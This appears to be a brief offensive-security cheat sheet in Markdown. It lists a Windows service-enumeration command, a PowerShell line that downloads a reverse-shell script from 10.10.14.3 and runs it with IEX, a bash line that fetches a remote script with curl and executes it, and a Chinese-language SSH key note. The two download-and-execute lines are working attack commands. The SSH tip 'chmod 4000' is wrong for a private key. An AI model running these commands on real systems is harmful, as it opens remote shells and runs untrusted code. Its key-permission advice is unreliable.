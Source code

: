 # Windows

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

# Linux

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`
